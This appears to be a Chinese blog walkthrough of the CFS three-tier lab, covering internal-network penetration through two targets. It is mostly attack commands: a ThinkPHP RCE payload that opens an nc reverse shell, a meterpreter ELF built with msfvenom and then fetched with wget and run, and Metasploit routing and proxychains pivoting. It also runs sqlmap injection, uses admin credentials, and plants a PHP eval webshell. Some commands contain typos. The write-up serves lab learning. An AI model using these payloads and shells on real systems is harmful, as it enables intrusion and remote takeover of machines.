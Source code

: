 ```yaml
---
title: CFS三层靶机内网渗透
date: 2020-10-22 10:06:26
tags: [内网渗透]
categories: 内网渗透
---
```


[toc]

## 靶机搭建

> ***网卡设置***
>
> > 需要桥接模式，且需要路由器改网段和再分配一个ip，所以直接用了nat模式
> >
> > ![image-20201022101116458](CFS三层靶机内网渗透/image-20201022101116458.png)
>
> ***设置静态ip***
>
> > 靶机一：
> >
> > `ifconfig ens36 192.168.22.11 netmask 255.255.255.0 `
> >
> > ![image-20201022101321010](CFS三层靶机内网渗透/image-20201022101321010.png)
> >
> > ![image-20201022101339056](CFS三层靶机内网渗透/image-20201022101339056.png)
> >
> > 靶机二:
> >
> > ![image-20201022101635533](CFS三层靶机内网渗透/image-20201022101635533.png)
> >
> > 靶机三:已经设置为静态ip无需设置

### target1

> 利用thinkphp的rce直接反弹shell
>
> > `/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc `
> >
> > `192.168.11.129 1234 -e /bin/bash`
> >
> > 攻击机:
> >
> > `nc -lvp 1234`
>
> ***交互式shell***
>
> > `python -c 'import pty;pty.spawn("/bin/bash")'`
> >
> > python -c 'import pty;pty.spawn("/bin/bash")'
>
> **第一个falg**
>
> > ![image-20201022143732121](CFS三层靶机内网渗透/image-20201022143732121.png)
>
> ***根目录下第二个flag**
>
> > ![image-20201022143828870](CFS三层靶机内网渗透/image-20201022143828870.png)
>
> ***rebots中第三个falg***
>
> > ![image-20201022144106802](CFS三层靶机内网渗透/image-20201022144106802.png)
> >
> > ![image-20201022144118718](CFS三层靶机内网渗透/image-20201022144118718.png)
>
> 

>
>
>****
>
>****
>
>***生成elf马***
>
>> `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.129 LPORT=4321 -f elf > shell1.elf`
>
>***利用python开启http服务***
>
>> `python -m SimpleHTTPServer 8080`
>
>攻击机下载shell
>
>> `wget htt://192.168.11.129:8080/shell1.elf`
>>
>> `chmod +x shell1.elf`
>>
>> `./shell1.elf`
>
>***msf开启监听***
>
>> `search handler`
>>
>> `use 29`
>>
>> ` set payload linux/x64/meterpreter/reverse_tcp `
>>
>> `set LHOST 192.168.11.129`
>>
>> `set payload 4321`
>>
>> `run`
>>
>> 得到meterpreter

### target2

>
>
>***添加路由***
>
>> ***当前网段***
>>
>> `run get_local_subnets`
>>
>> ![image-20201022151629404](CFS三层靶机内网渗透/image-20201022151629404.png)
>>
>> `run autoroute -s 192.168.22.0/24`
>>
>> ![image-20201022151826785](CFS三层靶机内网渗透/image-20201022151826785.png)
>
>***扩大攻击面端口扫描***
>
>> `search portscan`
>>
>> `use 5`
>>
>> ![image-20201022153557357](CFS三层靶机内网渗透/image-20201022153557357.png)
>>
>> 设置代理
>>
>> > 
>> >
>> > ![image-20201022154452395](CFS三层靶机内网渗透/image-20201022154452395.png)
>> >
>> > ![image-20201022154519030](CFS三层靶机内网渗透/image-20201022154519030.png)
>> >
>> > `set SRVPORT 2222`
>> >
>> > `vim /etc/proxychains.conf`
>> >
>> > `proxychains nmap -Pn -sT 192.168.22.22`
>
>访问80端口
>
>>
>>
>>![image-20201022154737024](CFS三层靶机内网渗透/image-20201022154737024.png)
>>
>>ps:
>>
>>> 添加路由后可以不设置代理也可访问
>
>****
>
>***发现注入点***
>
>> 利用sqlmap直接扫:http://192.168.22.22/index.php?r=vul&keyword=1d
>>
>> 后台登入:admin 123qwe
>
>***flag***
>
>![image-20201026163245130](CFS三层靶机内网渗透/image-20201026163245130.png)
>
>***后台写入一句话***
>
>> `<? php @eval($_POST[pass]);?>`

待续...